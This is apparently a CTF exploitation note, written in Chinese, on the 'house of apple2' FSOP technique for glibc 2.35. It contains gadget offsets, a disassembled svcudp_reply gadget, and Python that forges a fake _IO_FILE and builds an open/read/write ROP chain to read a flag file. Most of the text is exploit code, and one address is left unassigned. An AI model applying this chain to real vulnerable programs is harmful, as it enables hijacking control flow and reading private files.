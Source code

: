 libc2.35(house of apple2)
-------------------------

[参考博客](https://blog.csdn.net/m0_63437215/article/details/127914567)  
libc2.35 3.6 0x16A06A  
libc2.35 3\_ 在上述偏移上下找就行  
gadget=licbase+0x16A1FA  
magic\_gadget = libc\_base + libc.sym\["svcudp\_reply"\] + 0x1a

```text
   0x7ffff7f092ba <svcudp_reply+26>    mov    rbp, qword ptr [rdi + 0x48]
   0x7ffff7f092be <svcudp_reply+30>    mov    rax, qword ptr [rbp + 0x18]
   0x7ffff7f092c2 <svcudp_reply+34>    lea    r13, [rbp + 0x10]
   0x7ffff7f092c6 <svcudp_reply+38>    mov    dword ptr [rbp + 0x10], 0     
   0x7ffff7f092cd <svcudp_reply+45>    mov    rdi, r13
   0x7ffff7f092d0 <svcudp_reply+48>    call   qword ptr [rax + 0x28]
```

- 具体做法

```python
fake_IO_addr =
magic_gadget = libc_base + libc.sym["svcudp_reply"] + 0x1a

leave_ret = libc_base + 0x0000000000052d72 #: leave ; ret
pop_rdi_ret = libc_base + 0x000000000002daa2 #: pop rdi ; ret
pop_rsi_ret = libc_base + 0x0000000000037c0a #: pop rsi ; ret
pop_rdx_r12_ret = libc_base + 0x00000000001066e1 #: pop rdx ; pop r12 ; ret
rop_address = fake_IO_addr + 0xe0 + 0xe8 + 0x70

#read(0, (void *)ptr[num], 0xAA0uLL)直接向_IO_2_1_stderr_写入数据，同时伪造A,B,C三个fake file
orw_rop =  b'./flag\x00\x00'
orw_rop += p64(pop_rdx_r12_ret) + p64(0) + p64(fake_IO_addr - 0x10)
orw_rop += p64(pop_rdi_ret) + p64(rop_address)
orw_rop += p64(pop_rsi_ret) + p64(0)
orw_rop += p64(libc_base + libc.sym['open'])
orw_rop += p64(pop_rdi_ret) + p64(3)
orw_rop += p64(pop_rsi_ret) + p64(rop_address + 0x100)
orw_rop += p64(pop_rdx_r12_ret) + p64(0x50) + p64(0)
orw_rop += p64(libc_base + libc.sym['read'])
orw_rop += p64(pop_rdi_ret) + p64(1)
orw_rop += p64(pop_rsi_ret) + p64(rop_address + 0x100)
orw_rop += p64(pop_rdx_r12_ret) + p64(0x50) + p64(0)
orw_rop += p64(libc_base + libc.sym['write'])

payload = p64(0) + p64(leave_ret) + p64(1) + p64(2) #这样设置同时满足assert和fsop
payload = payload.ljust(0x38, b'\x00') + p64(rop_address) #FAKE FILE+0x48
payload = payload.ljust(0x90, b'\x00') + p64(fake_IO_addr + 0xe0) #_wide_data=fake_IO_addr + 0xe0
payload = payload.ljust(0xc8, b'\x00') + p64(libc_base + libc.sym['_IO_wfile_jumps']) #vtable=_IO_wfile_jumps
#*(A+0Xe0)=B   _wide_data->_wide_vtable=fake_IO_addr + 0xe0 + 0xe8
payload = payload.ljust(0xd0 + 0xe0, b'\x00') + p64(fake_IO_addr + 0xe0 + 0xe8)
#*(B+0X68)=C=magic_gadget
payload = payload.ljust(0xd0 + 0xe8 + 0x68, b'\x00') + p64(magic_gadget)
payload = payload + orw_rop
```
